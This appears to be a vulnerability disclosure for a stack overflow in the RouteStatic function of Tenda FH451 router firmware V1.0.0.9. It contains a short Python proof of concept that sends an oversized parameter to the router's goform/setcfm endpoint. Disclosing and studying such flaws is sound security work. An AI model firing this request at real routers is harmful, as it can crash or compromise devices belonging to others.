


## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-1629.html
## Affected version

FH451  V1.0.0.9
## Vulnerability details

Tenda FH451 V1.0.0.9 has a stack overflow vulnerability located in the RouteStatic function.Without checking the length of the parameter var, it was assigned to stackspace v4


## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.109.145/'

url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```
